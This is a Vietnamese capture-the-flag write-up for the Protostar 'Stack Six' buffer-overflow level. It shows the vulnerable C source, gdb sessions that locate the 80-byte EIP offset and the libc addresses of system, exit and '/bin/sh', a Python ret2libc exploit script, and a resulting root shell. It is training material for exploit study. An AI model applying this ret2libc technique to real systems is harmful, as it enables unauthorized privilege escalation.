 # STACK SIX

## About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SIX` muốn chúng ta xem xét về cách vượt qua giới hạn khi mà địa chỉ trả về bị giới hạn. Cụ thể hơn là cách khai thác ret2libc.

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

if((ret & 0xbf000000) == 0xbf000000)

```
Giả sử ret = 0xbf777777
	     ret & 0xbf000000

	     0xbf777777 
           & 0xbf000000
	     __________
             0xbf000000 <-- luôn bằng 0xbf000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xbf000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xbf000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) start
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1984
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xbf000000` đến `0xbfffffff` là stack -> không thể ghi đè shellcode lên stack rồi return lại để thực thi shellcode như `STACK FIVE`.

Thử thách này để có thể thực thi được shell ta sẽ sử dụng phương pháp ret2libc.
Đầu tiên là tìm lượng padding cần thiết để flow được vào EIP.

```
(gdb) c
Continuing.
input path please: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()       <-- 'UUUU'    [80 ký tự][EIP]
(gdb)
```

Sau đó là tìm địa chỉ của system() và exit() và địa chỉ của chuỗi `/bin/sh`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Địa chỉ của chuỗi `/bin/sh` ta tìm được khi kiểm tra lại không chứa chuỗi ta cần tìm.

Vì vậy ta sẽ dùng cách khác để tìm `/bin/sh`:

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin$ (python exp.py; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
final1	format1  format4  heap2  net1  net4    stack2  stack5
final2	format2  heap0	  heap3  net2  stack0  stack3  stack6
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>

